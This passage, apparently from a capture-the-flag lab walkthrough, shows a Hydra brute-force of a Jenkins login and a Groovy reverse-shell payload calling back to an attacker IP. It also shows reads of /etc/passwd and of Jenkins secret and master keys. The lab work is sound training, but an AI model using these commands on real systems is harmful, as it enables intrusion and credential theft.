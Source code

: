   hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Submit=Sign+in:Invalid username or password" -v -s 8080
  Jenkins:
  [8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob

Now, logged on, go to "Manage Jenkins" and "Script console". Here we can run another reverse shell:
  String host="10.9.186.161";int port=8888;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

  (niknitro㉿kali)-[~/thm/internal] nc -nlvp 8888                                                                                                   
  listening on [any] 8888 ...
  connect to [10.9.186.161] from (UNKNOWN) [10.10.162.127] 49750
  whoami
  jenkins

### Playing in our new machine

  >> cat /etc/passwd
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  _apt:x:100:65534::/nonexistent:/bin/false
  jenkins:x:1000:1000::/var/jenkins_home:/bin/bash

  cat /var/jenkins_home/secret.key
  ff9d7e137411b61679dfe34a2a385ee066fcd850d0b97cbb2c319c2b4cad125f
  cat /var/jenkins_home/secrets/master.key
  5354f116835133ad1273b83a07d25e0eff524d19fcea2f5de32373169a7b0ef8b30e84a1b1b414e8bf9fc80f72f2ce6db34df700038fb76f73e74cd9ea4e8b3e998ed3f715e444ba6ada6ba9adce287001d496af0174a310a0ba90eec85f7d5bf092cace21f3fb76d9d8f96702897dae8b51c3f76c81b7db53c62c16360659bd

  cat  /var/jenkins_home/users/admin_3190494404640478712/users.xml
  <?xml version='1.1' encoding='UTF-8'?>
  <user>
    <version>10</version>
    <id>admin</id>
    <fullName>admin</fullName>
    <description></description>
    <properties>
      <jenkins.security.ApiTokenProperty>
        <tokenStore>
          <tokenList/>
        </tokenStore>
      </jenkins.security.ApiTokenProperty>
      <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.3.12">
        <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>